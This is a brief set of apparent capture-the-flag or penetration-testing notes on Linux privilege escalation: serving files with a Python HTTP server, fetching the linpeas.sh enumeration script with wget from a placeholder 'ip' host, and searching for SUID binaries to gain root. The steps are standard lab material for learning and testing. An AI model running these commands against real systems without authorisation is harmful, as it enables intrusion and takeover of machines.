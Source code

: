 #simple python server to transfer our file :
python -m SimpleHTTPServer 8090

#Linpeas
wget ip/linpeas/linpeas.sh


#get out of the blue program :
find / -perm -u=s -type f 2>/dev/null

and try to find the loophole, program that may have root permission on running it.